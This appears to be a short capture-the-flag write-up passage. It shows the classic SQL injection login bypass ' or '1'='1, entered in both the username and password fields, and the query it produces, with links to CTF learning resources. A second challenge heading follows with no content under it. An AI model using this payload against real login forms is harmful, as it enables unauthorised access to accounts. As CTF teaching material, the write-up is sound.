 ## Simple Question of Logic 1
- use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))
```sh
# classic login bypass

' or '1'='1
' or '1'='1
```
- as if to say
```erlang
$query = "select * from users where user = '/null/' OR '1'='1' and pw = '/null/' OR '1'='1'";
```
## Simple Question of Logic 2

